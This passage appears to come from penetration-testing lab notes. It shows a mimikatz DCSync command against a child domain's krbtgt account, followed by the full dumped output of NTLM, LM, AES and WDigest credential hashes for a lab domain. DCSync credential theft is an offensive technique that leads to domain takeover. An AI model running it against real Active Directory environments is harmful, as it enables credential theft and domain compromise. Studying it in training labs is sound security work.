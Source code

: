     2. Execute the command `lsadump::dcsync /user:CHILDOMAIN\\krbtgt` to retrieve the KRBTGT account's NT hash.
        
    
    ```go
    
    mimikatz # lsadump::dcsync /user:LOGISTICS\\krbtgt
    [DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
    [DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
    [DC] 'LOGISTICS\\krbtgt' will be the user account
    [rpc] Service  : ldap
    [rpc] AuthnSvc : GSS_NEGOTIATE (9)
    
    Object RDN           : krbtgt
    
    ** SAM ACCOUNT **
    
    SAM Username         : krbtgt
    Account Type         : 30000000 ( USER_OBJECT )
    User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
    Account expiration   :
    Password last change : 11/1/2021 11:21:33 AM
    Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
    Object Relative ID   : 502
    
    Credentials:
      Hash NTLM: 9d765b482771505cbe97411065964d5f
        ntlm- 0: 9d765b482771505cbe97411065964d5f
        lm  - 0: 69df324191d4a80f0ed100c10f20561e
    
    Supplemental Credentials:
    * Primary:NTLM-Strong-NTOWF *
        Random Value : 8c6b7919c01a5c654c91922f9a13225c
    
    * Primary:Kerberos-Newer-Keys *
        Default Salt : LOGISTICS.INLANEFREIGHT.LOCALkrbtgt
        Default Iterations : 4096
        Credentials
          aes256_hmac       (4096) : d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
          aes128_hmac       (4096) : ca289e175c372cebd18083983f88c03e
          des_cbc_md5       (4096) : fee04c3d026d7538
    
    * Primary:Kerberos *
        Default Salt : LOGISTICS.INLANEFREIGHT.LOCALkrbtgt
        Credentials
          des_cbc_md5       : fee04c3d026d7538
    
    * Packages *
        NTLM-Strong-NTOWF
    
    * Primary:WDigest *
        01  71fc2147dcf21fed982e180c3ebc48b8
        02  e193e66c97fb2ff16f352c25c06a5009
        03  9b4087c331fcd37671b407cb4f0e44a2
        04  71fc2147dcf21fed982e180c3ebc48b8
        05  e193e66c97fb2ff16f352c25c06a5009
        06  0da90377100224d5635e529d358f1409
        07  71fc2147dcf21fed982e180c3ebc48b8
        08  1763ae4e99694dcf66700106bb303aa5
        09  024c0c0c71f6e1f89a8c3be922534f0d
        10  3523e29569b4a45d20d99b7937f40326
        11  1763ae4e99694dcf66700106bb303aa5
        12  024c0c0c71f6e1f89a8c3be922534f0d
        13  5f47d51dee42d3f9a52a2d464c291fe5
        14  1763ae4e99694dcf66700106bb303aa5
        15  b7196b13a4fc2a29c18de543912039c2
        16  64689c7d74d2f2908330c62e47b34d75
        17  023f316da4715dd596d4ae6d5b9049cc
        18  fec7644b22077323cc9770c91d205269